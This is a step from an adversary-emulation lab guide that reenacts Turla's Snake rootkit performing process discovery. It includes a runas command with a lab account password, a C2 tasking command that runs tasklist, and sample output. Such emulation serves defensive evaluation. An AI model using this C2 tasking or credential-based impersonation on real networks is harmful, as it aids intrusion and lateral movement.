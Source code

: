 ## Step 13 - First Workstation Discovery

:microphone: `Voice Track:`

Step 13 emulates Turla performing discovery on the first workstation to
discover a file server and associated file server admin.

The Snake rootkit receives tasking from the C2 server to enumerate currently
running processes on the local computer and finds that `EgleAdmin` also has
processes running. Further enumeration of the `EgleAdmin` user shows that it is
a member of the `File Server Admins` group. Snake then impersonates `Egle` to
enumerate mapped drives on the local machine and discovers `Egle`'s home drive
is actively mapped to the file server.

---

### :biohazard: Procedures

* :arrow_right: Return to your RDP session to `azuolas (10.100.40.103)` as `Egle`. 

* Open up a powershell terminal and run the following command:

```pwsh
runas /user:nk\egleadmin powershell
```

* When prompted, type in the password for `EgleAdmin`:

| Username   | Password |
| :--------: | :---------------: |
| nk\EgleAdmin | Producer1! |

* A new powershell window should pop up. Run the following command to ensure that you are running as `nk\EgleAdmin`:

```pwsh
whoami
```

* :arrow_right: Return to your Kali C2 server.

* From your lower Kali C2 terminal window, task the Snake rootkit to run the following process discovery command:
```bash
# Discover running processes
./evalsC2client.py --set-task 534b40585d514b554844 '{"type": 3, "proc": "tasklist.exe", "args": "/v"}'
```

* :heavy_exclamation_mark: Verify that the enumerated processes output contains a process running under `EgleAdmin`
```bash
grep 'NK\\EgleAdmin' logs.txt -i
```

* This should return output similar to the following:
  * > ```
    > powershell.exe                2868 RDP-Tcp#6                  5     79,140 K Unknown         NK\egleadmin                                            0:00:00 N/A
    > conhost.exe                   7368 RDP-Tcp#6                  5     18,088 K Unknown         NK\egleadmin                                            0:00:00 N/A
    > ```
